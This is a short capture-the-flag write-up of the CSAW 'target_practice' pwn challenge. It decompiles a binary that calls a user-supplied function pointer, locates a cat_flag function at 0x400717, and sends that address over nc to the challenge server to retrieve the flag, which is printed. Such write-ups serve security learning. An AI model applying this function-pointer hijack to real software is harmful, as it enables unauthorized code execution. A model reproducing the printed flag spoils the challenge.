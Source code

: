 ```yaml
---
Source: 
created: 2023-09-16
tags: ctf writeup
Type: "[[Fleeting notes]]"
---
```

### Description:
```
Aim carefully... This pwnie can JUMP!
```
### File:
![[target_practice]]
### Solution:
After using file command:
```
target_practice: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c2ae3c4733d9761d5043faa90d68371e52d74bc2, not stripped
```
not stripped. Great!
Opened it with gdb.
After running it, it wants only one input and then it breaks.
After opening it with Ghidra we get inside the  main function:
```c++

int main(void)

{
  long in_FS_OFFSET;
  code *local_20;
  code *local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  fflush(stdout);
  fflush(stdin);
  printf("Aim carefully.... ");
  __isoc99_scanf(&DAT_00400895,&local_20);
  local_18 = local_20;
  (*local_20)();
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```
As, `code *local_20;` is a code pointer, and `__isoc99_scanf(&DAT_00400895,&local_20);` is taking input so, I deduced that it must be taking an function pointer.
After searching in Ghidra, I found this function,
```cpp
void cat_flag(void)

{
  system("cat /flag.txt");
  return;
}
```
After using the objdump command with grep we get:
command:
```bash
objdump -D target_practice  | grep "cat"
```
Output:
```
0000000000400660 <_dl_relocate_static_pie>:
0000000000400717 <cat_flag>:
```

So, I found out the function pointer.
Now, time to test.
After using the pointer, I see that it doesn't give segmentation error.
Finally, time to test it on the server.
```bash
nc intro.csaw.io 31138
Aim carefully.... 400717
```
Output:
```
csawctf{y0ure_a_m4s7er4im3r}
```
We got our flag. Yay!